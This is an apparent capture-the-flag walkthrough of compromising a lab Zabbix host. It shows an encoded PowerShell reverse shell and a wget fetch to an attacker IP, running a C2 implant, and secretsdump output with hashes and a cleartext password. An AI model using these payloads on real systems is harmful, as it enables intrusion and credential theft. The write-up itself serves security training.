

If we send the following command we can hope to get back a call to out nc listening:


But it isn't working...

&nbsp;

# Back again on track

Now the exploit that worked was the first one.

https://github.com/Diefunction/ZabbixAPIAbuse

The only issue is that the main host is windows, running a Linux server so when I was testing to get a rce was failing but eventually it worked:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/ZabbixAPIAbuse]
└─# python3 ZabbixAPIAbuse.py
URL: http://10.9.10.16/zabbix/api_jsonrpc.php
CMD: powershell -c "wget http://10.9.10.10:8080/culo"
Method [Default: action] (action / item): action
Username [Default: Admin]: zabapi
Password [Default: zabbix]: Zabbix
[0]: D3WKT001
[1]: COREWKT002
Host num: 0
[*] Waiting for execution ...
[*] Actions deleted
[*] Triggers deleted
```

And I can get back a shell baby!



Knowing this should allows us get a rce!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/ZabbixAPIAbuse]
└─# python3 ZabbixAPIAbuse.py
URL: http://10.9.10.16/zabbix/api_jsonrpc.php
CMD: powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOQAuADEAMAAuADEAMAAiACwAOAAwADgAMAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
Method [Default: action] (action / item): action
Username [Default: Admin]: zabapi
Password [Default: zabbix]: Zabbix
[0]: D3WKT001
[1]: COREWKT002
Host num: 0
[*] Waiting for execution ...
```

And the payload result in a success, having a shell directly as the NTSystem wow!



Now I will upload a shell to havoc and move on.

```
PS C:\> cd Temp
PS C:\Temp> wget http://10.9.10.10:8080/zabbix.exe -outfile zabbix.exe
PS C:\Temp> dir
PS C:\Temp> wget http://10.9.20.13:8080/zabbix.exe -outfile zabbix.exe
PS C:\Temp> dir


    Directory: C:\Temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/25/2024  11:07 AM         102400 zabbix.exe


PS C:\Temp> ./zabbix.exe
```

And we have a kickback!  


Now I will get my flag from admin users.

```
25/06/2024 17:11:23 [yovecio] Demon » ls
[*] [BC3284D7] Tasked demon to list current directory
[*] Changed directory: Administrator
 Directory of C:\Users\Administrator\*:

13/03/2024  09:35    <DIR>                 3D Objects
13/03/2024  09:35    <DIR>                 AppData 
31/01/2024  06:23    <DIR>                 Application Data
13/03/2024  09:35    <DIR>                 Contacts
31/01/2024  06:23    <DIR>                 Cookies 
25/06/2024  09:50    <DIR>                 Desktop 
13/03/2024  09:35    <DIR>                 Documents
13/03/2024  09:35    <DIR>                 Downloads
13/03/2024  09:35    <DIR>                 Favorites
31/01/2024  06:36           64 B           flag.txt
13/03/2024  09:35    <DIR>                 Links   
31/01/2024  06:23    <DIR>                 Local Settings
13/03/2024  09:35    <DIR>                 Music   
31/01/2024  06:23    <DIR>                 My Documents
31/01/2024  06:23    <DIR>                 NetHood 
25/06/2024  09:49           1.05 MB        NTUSER.DAT
31/01/2024  06:23           24.58 kB       ntuser.dat.LOG1
31/01/2024  06:23           0 B            ntuser.dat.LOG2
31/01/2024  06:23           65.54 kB       NTUSER.DAT{06c89856-c02b-11ee-902f-005056b95fa3}.TM.blf
31/01/2024  06:23           524.29 kB      NTUSER.DAT{06c89856-c02b-11ee-902f-005056b95fa3}.TMContainer00000000000000000001.regtrans-ms
31/01/2024  06:23           524.29 kB      NTUSER.DAT{06c89856-c02b-11ee-902f-005056b95fa3}.TMContainer00000000000000000002.regtrans-ms
13/03/2024  09:35    <DIR>                 OneDrive
13/03/2024  09:35    <DIR>                 Pictures
31/01/2024  06:23    <DIR>                 PrintHood
31/01/2024  06:23    <DIR>                 Recent  
13/03/2024  09:35    <DIR>                 Saved Games
13/03/2024  09:35    <DIR>                 Searches
31/01/2024  06:23    <DIR>                 SendTo  
31/01/2024  06:23    <DIR>                 Start Menu
31/01/2024  06:23    <DIR>                 Templates
13/03/2024  09:35    <DIR>                 Videos  
               7 File(s)     2.19 MB
               24 Folder(s)
```

And the flag:

```
5/06/2024 17:12:08 [yovecio] Demon » powershell "cat ./flag.txt"
[*] [3B4067E8] Tasked demon to execute a powershell command/script
[+] Send Task to Agent [192 bytes]
[+] Received Output [31 bytes]:
Cyb3rN3t1C5{M0n!t0r_t00l_RC3}
```

# POST Exploitation

I see another user called James.peck and I guess I will get the svc_zabbix as well?

```
25/06/2024 17:09:04 [yovecio] Demon » ls
[*] [0C389EB7] Tasked demon to list current directory
[*] Changed directory: Users
 Directory of C:\Users\*:

25/06/2024  09:50    <DIR>                 Administrator
25/06/2024  09:50    <DIR>                 administrator.D3V
07/12/2019  04:30    <DIR>                 All Users
13/03/2024  09:35    <DIR>                 Default 
07/12/2019  04:30    <DIR>                 Default User
13/03/2024  09:35    <DIR>                 defaultuser0
25/06/2024  07:19           174 B          desktop.ini
25/06/2024  10:35    <DIR>                 James.Peck
25/06/2024  07:19    <DIR>                 Public  
               1 File(s)     174 B
               8 Folder(s)
```

Now I will use the SAMDUMP to get the SAM/LSASS and all the juicy secrets.


And now parsing time...

```
┌──(root㉿kali-bello)-[/home/…/18abcf18/Download/C:/temp]
└─# impacket-secretsdump -system systemic.txt -security security.txt -sam samantha.txt LOCAL                                                      
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0xdd51239cbf049b81cda680fdcd387f7e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c916f9c0f83388bd46941a5e7f0c585d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:954fd25162ffdda445dca6edec93b934:::
[*] Dumping cached domain logon information (domain/username:hash)
D3V.LOCAL/James.Peck:$DCC2$10240#James.Peck#e489764d37bbd93b8a4e0569573a1fb8: (2024-06-25 03:35:06)
D3V.LOCAL/Administrator:$DCC2$10240#Administrator#7804c63030059e68ff8f5aac0fc81463: (2024-03-13 12:37:49)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:2a003f007500580036004f0027006500330072006600310020002b006900230034003000520037002600460027006900320042006c006c00320027004e002b003f005d006b00640021004b005600720023002600790079005f0051004900580077007700380055006600730029006e005700500054006700420029003c005b0034004b006e006b004b00550059005000270031003400570072005b002b00530026002c004b006100250065004f0071003e00260060004200240063006b0025006c0069003800200042005d00640037006d004b0027005d00720079005b004b0048004b006b002a003500750055007a00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:d837c8c434a3a8cf7f0d44f2ed01817d
[*] DefaultPassword 
(Unknown User):ohD6ubo5ie
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x19f401430ee36073cf42930ef8bbfddbd88a4e9f
dpapi_userkey:0xc39284b8e4b810488d3258231cfa04b17460b797
[*] NL$KM 
 0000   80 91 DF 97 05 38 6D 30  B4 20 36 D9 6A 8C 86 CC   .....8m0. 6.j...
 0010   3F FE E9 74 35 A5 25 41  F9 81 96 F6 50 2F 05 81   ?..t5.%A....P/..
 0020   E5 E7 E2 9D C6 EF 5E 85  73 CC C8 87 CB 1D CE A0   ......^.s.......
 0030   6A D1 02 AC 23 5C FC 55  00 7D A7 6D 4E 95 09 1B   j...#\.U.}.mN...
NL$KM:8091df9705386d30b42036d96a8c86cc3ffee97435a52541f98196f6502f0581e5e7e29dc6ef5e8573ccc887cb1dcea06ad102ac235cfc55007da76d4e95091b
[*] Cleaning up...
```

Ok as usual we have some cleartext credentials but no username, is then this for **svc_apache** or **james.peck**?



nice it's for james peck!

We can also see that the zabbix machine points toward **monitor.cyber.local** from the config file on the machine:

```
Directory of C:\Program Files\ZabbixWinAgent\conf\*:

25/06/2024  23:34           166 B          zabbix_agentd
               1 File(s)     166 B
               0 Folder(s)

25/06/2024 17:32:32 [yovecio] Demon » cat zabbix_agentd
[*] [2347BDEC] Tasked demon to display content of zabbix_agentd
[*] File content of zabbix_agentd (166):
Server=monitor.cyber.local
ServerActive=monitor.cyber.local
ListenPort=10050
Hostname=D3WKT001
HostMetadataItem=system.uname
EnableRemoteCommands=1
LogFile=No
```

Which is the machine we already know:



I guess we can move on, and this machine is only used as carrier for zabbix but none of the flags are saved here... And judging that next flag is about the Jenkins I feel confortable we can move on!